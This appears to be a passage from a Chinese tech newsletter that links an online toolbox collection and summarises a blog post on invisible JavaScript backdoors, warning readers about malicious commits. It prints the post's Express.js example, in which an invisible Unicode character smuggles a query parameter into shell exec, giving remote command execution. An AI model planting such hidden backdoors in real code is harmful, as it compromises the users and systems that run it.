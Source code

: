 ![Normalize Unicode Text](https://cdn.jsdelivr.net/gh/bestxtools/weekly-cn@main/images/2022-04-27-13-04-56.png)
![Normalize Unicode Text](https://cdn.jsdelivr.net/gh/bestxtools/weekly-cn@main/images/2022-04-27-12-59-18.png)

## 🧰 [在线工具箱大全](https://awesome-toolbox-chinese.bestxtools.com/)

很多程序员都喜欢做一个工具箱。平时也会经常用到各种工具。这里收集了一些国内外好用的在线工具箱。

链接:

- [https://github.com/bestxtools/awesome-toolbox-chinese](https://github.com/bestxtools/awesome-toolbox-chinese)
- [https://😎🧰.bestxtools.com/](https://😎🧰.bestxtools.com/)

欢迎[点赞](https://github.com/bestxtools/awesome-toolbox-chinese)，收藏，[投稿](https://github.com/bestxtools/awesome-toolbox-chinese/issues)。

---

## 🌈 文章 & 资源分享

- [The Invisible JavaScript Backdoor - Certitude Blog](https://links.bestxtools.com/certitude.consulting/blog/en/invisible-backdoor/)

  使用不可见零宽字符或同形字符（易混淆字符）可以写出很难发现的后门程序。了解其中的玄机，小心项目被人恶意地提交了这种代码。

  下面是这篇文章的示例代码：（Code review 真的很难发现其中的问题）

```
const express = require("express");
const util = require("util");
const exec = util.promisify(require("child_process").exec);

const app = express();

app.get("/network_health", async (req, res) => {
  const { timeout,ㅤ} = req.query;
  const checkCommands = [
    "ping -c 1 google.com",
    "curl -s http://example.com/",ㅤ
  ];

  try {
    await Promise.all(
      checkCommands.map(
        (cmd) => cmd && exec(cmd, { timeout: +timeout || 5_000 })
      )
    );
    res.status(200);
    res.send("ok");
  } catch (e) {
    res.status(500);
    res.send("failed");
  }
});

app.listen(8080);
```
